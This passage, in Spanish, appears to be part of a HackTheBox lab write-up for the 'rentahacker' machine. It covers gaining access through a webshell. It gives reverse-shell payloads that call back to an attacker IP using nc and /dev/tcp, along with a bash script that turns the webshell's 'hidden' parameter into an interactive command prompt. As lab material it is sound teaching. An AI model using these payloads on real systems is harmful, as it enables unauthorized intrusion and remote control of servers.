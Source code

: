 encontramos el comando 
```bash
 hidden 
```




## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell desde la webshell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En la web

    ```bash
    http://sec03.rentahacker.htb/shell.php?hidden=nc -e /bin/bash 10.10.14.20 443
    http://sec03.rentahacker.htb/shell.php?hidden=bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    http://sec03.rentahacker.htb/shell.php?hidden=whoami | nc 10.10.14.20 443
    ```

Como aqui vemos que nada functionna, pensamos que hay reglas que son definidas en el *iptables*

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero 
```bash
 fakeShell.sh 
```
 que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
declare -r main_url="http://sec03.rentahacker.htb/shell.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -X GET -G $main_url --data-urlencode "hidden=$command"; echo
done
```
